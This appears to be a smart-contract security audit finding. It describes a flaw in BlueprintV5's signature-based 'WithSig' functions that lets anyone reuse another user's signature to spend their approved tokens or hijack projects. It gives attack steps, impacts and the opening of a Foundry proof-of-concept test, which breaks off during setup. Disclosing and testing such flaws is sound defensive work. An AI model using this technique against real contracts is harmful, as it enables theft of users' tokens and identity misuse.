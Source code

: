 1. The attacker obtains a valid signature from a legitimate user.  
2. The attacker calls any of the `WithSig` functions using the valid signature.  
3. The contract accepts the signature and executes the action, using the signer's identity without verifying `msg.sender`.  
4. Depending on the function called, the attacker may:  
   - Spend the victim's tokens (if approved).  
   - Whitelist themselves in restricted lists.  
   - Register projects under another user's identity.  
   - Modify deployment configurations.  

### Impact

- **Token Loss:** If the victim has approved token spending, an attacker could use their tokens.  
- **Project Hijacking:** The attacker could create or modify projects under another user's identity.  
- **Reputation Damage:** Since actions are linked to the signer address, a victim could be held accountable for unauthorized transactions.  


### PoC

This is a basic test case where Alice uses any signature (Bob's in this case) and calls `createAgentWithTokenWithSig`

```solidity
pragma solidity ^0.8.26;

import "forge-std/Test.sol";
import "forge-std/Vm.sol";
import "forge-std/console2.sol";
import "forge-std/console.sol";
import {BlueprintV5} from "../src/BlueprintV5.sol";
import {BlueprintCore} from "../src/BlueprintCore.sol";
import {Blueprint} from "../src/Blueprint.sol";
import {stdError} from "forge-std/StdError.sol";
import {MockERC20} from "./MockERC20.sol";

contract SignatureTest is Test {
    BlueprintV5 public blueprint;
    MockERC20 public mockToken;
    bytes32 public projectId;
    address public workerAddress;
    address public dummyAddress;

    function setUp() public {
        blueprint = new BlueprintV5();
        blueprint.initialize(); // mimic upgradeable contract deploy behavior

        mockToken = new MockERC20();

        // set crestal wallet address
        blueprint.setFeeCollectionWalletAddress(address(0x7D8be0Dd8915E3511fFDDABDD631812be824f578));

        projectId = bytes32(0x2723a34e38d0f0aa09ce626f00aa23c0464b52c75516cf3203cc4c9afeaf2980);
        workerAddress = address(0x4d6585D89F889F29f77fd7Dd71864269BA1B31df);
        dummyAddress = address(0);
    }

    function test_checkSignnature() public {
        string memory base64Proposal = "test base64 proposal";
        string memory serverURL = "http://example.com";

        (address aliceAddr, uint256 alicePK) = makeAddrAndKey("alice");
        (address bobAddr, uint256 bobPK) = makeAddrAndKey("bob");
```